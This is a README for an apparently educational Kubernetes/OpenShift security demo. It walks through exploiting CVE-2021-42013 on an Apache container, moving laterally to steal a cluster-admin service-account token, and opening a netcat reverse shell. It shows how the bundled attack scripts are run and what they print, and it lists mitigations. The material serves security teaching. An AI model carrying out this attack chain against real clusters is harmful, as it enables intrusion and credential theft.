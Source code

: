 ## Legal Disclaimer

This project is done for educational and ethical testing purposes only. Attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## Introduction

Welcome to our demo environment, where we showcase our comprehensive approach to securing modern application architectures. In this environment, we focus on critical areas of security: Applying Security Best practices ( Or not ), vulnerability management, runtime detection and response, network segmentation, defence in depth, and applying the least privileges. The demo environment also includes runtime detection and response capabilities, allowing you to detect and respond to threats in real time, including detecting zeroday attacks. Finally, our demo environment showcases the importance of network segmentation in securing modern application architectures.

## Installing

```
git clone https://github.com/ralvares/security-demos
cd manifests
oc apply -k .
```

## RHACS/Stackrox

TBD

## Demo Diagram

![Diagram](demo-diagram.png?raw=true "Diagram")

## Attack Description

In this scenario, the attacker starts by gaining access to "asset-cache," which may have a vulnerability that the attacker can exploit to gain control of the container. Once the attacker has control of "asset-cache," they then use it as a jumping-off point to try and gain access to "visa-processor."

To do this, the attacker may use exploits or other techniques to move laterally within the network, potentially taking advantage of vulnerabilities in other containers or network components to gain access to additional systems. Once the attacker has gained access to "visa-processor," they may attempt to establish persistence within the network, allowing them to maintain access even if their initial entry point is discovered and blocked.

## Attack Flow

![Diagram](demo-diagram-attack-flow.png?raw=true "Diagram")

## Attack Environment

 The "asset-cache" is a web server running a version of Apache with a vulnerability (CVE-2021-42013) and exposed to the internet via Route/ingress, which means it has a weakness that the attacker can exploit to gain access to the system.

Remember that the vulnerability scanner cannot identify the vulnerability because the web server was built from source code, which means it was custom-made rather than downloaded as a pre-made package.

The plan is to use the "asset-cache" as a stepping stone to access a workload called "visa-processor" that is running in the "payments" namespace. 
There is no network segmentation within the cluster, which means that once they gain access to one part of the system, it will be relatively easy for them to move laterally and access other parts of the system.

The "visa-processor" service account within the cluster has cluster-admin privileges. If the attacker has access to a token or credentials that allow them to authenticate with the Kubernetes cluster as the "visa-processor" service account (which has cluster-admin privileges), they would have significant power within the cluster.

With this level of access, the attacker could use a command-line tool called "kubectl" to execute commands on any of the containers running within the cluster. For example, they could use the "kubectl exec" command to execute arbitrary commands on a running container, which could potentially give them access to sensitive information or allow them to modify the behaviour of the container in malicious ways.

Alternatively, the attacker could use "kubectl" to create a new namespace within the cluster, and then deploy their own containers within that namespace. This would allow them to run their own code within the cluster, potentially giving them even greater access and control over the system.

Overall, the level of access provided by the "visa-processor" service account within the Kubernetes cluster represents a significant security risk. Organizations must ensure appropriate security measures are in place to prevent unauthorized access.

### Mitigations

To mitigate the security risks outlined in the previous conversation, I would recommend starting with the following steps:

- Upgrade the software running on the containers, including Apache and any other software that may be vulnerable to attack. Keeping software up-to-date is an essential step in ensuring that known security vulnerabilities are addressed.

- Apply the principle of least privilege to the "visa-processor" service account. Specifically, remove the cluster admin privileges from the service account and only provide it with the permissions that are required for it to perform its intended functions.

- configure the container to listen on a higher port, such as port 8080, so that it does not require root access. Running containers as non-root users is generally considered a best practice for security.

- Apply network policies to enforce network segmentation within the Kubernetes cluster. This can help prevent lateral movement by attackers who gain access to one part of the system.

By following these steps, organizations can reduce the likelihood of a successful attack against their Kubernetes cluster, and limit the damage that an attacker could cause if they were able to gain access to the system. It is important to keep in mind, however, that security is an ongoing process and requires regular attention and maintenance to stay effective.

## Scripts

The scripts are designed to demo a few security use cases, meaning the target are hardcoded ( asset-cache and visa-processor ).

- **attack_001.sh** will use asset-cache as a steping stone to access the visa-processe service account token.

```
Security Demo -> cd attack
Security Demo -> ./attack_001.sh http://asset-cache-frontend.apps.cluster.local/                
☺ - Target asset-cache-84bc5779ff-lsq2n Exploited
☺ - Next Phase: Lateral Movement ...
☺ - Exploiting visa-processor workload ...
☺ - Target visa-processor-6d764fc488-qzjxl Exploited
☺ - Token extracted from visa-processor-6d764fc488-qzjxl
 ☣☣☣ Checking Token Privileges ☣☣☣
☺ - kubernetes.default.svc:443 Access Confirmed from asset-cache-84bc5779ff-lsq2n
☺ - Token with cluster-admin Privileges Confirmed
☣☣☣ Happy Hacking ☣☣☣

Security Demo -> cat token
eyJhbGciOiJSUzI1NiIsImtpZCI6ImNsbXFWcGppX1BQX1NHd....
```

- **attack_002.sh** will use the token extracted from the first attack and run kubectl exec to install netcat and run a reverse shell. Kube API needs to be accessible. 

```
Security Demo -> cd attack
Security Demo -> ./attack_002.sh https://api.ocp.cluster.local:6443                                                                           
☠ - Getting access to pod visa-processor-6d764fc488-qzjxl

WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Ign:1 http://deb.debian.org/debian stretch InRelease
Hit:2 http://security.debian.org/debian-security stretch/updates InRelease
Hit:3 http://deb.debian.org/debian stretch-updates InRelease
Hit:4 http://deb.debian.org/debian stretch Release
Reading package lists...
Building dependency tree...
Reading state information...
2 packages can be upgraded. Run 'apt list --upgradable' to see them.
Reading package lists...
Building dependency tree...
Reading state information...
netcat is already the newest version (1.10-41).
0 upgraded, 0 newly installed, 0 to remove and 2 not upgraded.
.
.
.
```

- **attack_003.sh** - will use asset-cache as a stepping stone to to install netcat and run a reverse shell without the need to kubectl exec or token :D

```
Security Demo -> cd attack
Security Demo -> ./attack_003.sh http://asset-cache-frontend.apps.cluster.local/                                                              1
PoC CVE-2021-42013 reverse shell Apache 2.4.50 with CGI
Exploiting deployment...
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Transfer-Encoding: chunked
Date: Tue, 07 Mar 2023 07:22:23 GMT


WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Ign:1 http://deb.debian.org/debian stretch InRelease
Hit:2 http://deb.debian.org/debian stretch-updates InRelease
Hit:3 http://security.debian.org/debian-security stretch/updates InRelease
Hit:4 http://deb.debian.org/debian stretch Release
Reading package lists...
Building dependency tree...
Reading state information...
2 packages can be upgraded. Run 'apt list --upgradable' to see them.
Reading package lists...
Building dependency tree...
Reading state information...
netcat is already the newest version (1.10-41).
0 upgraded, 0 newly installed, 0 to remove and 2 not upgrade
```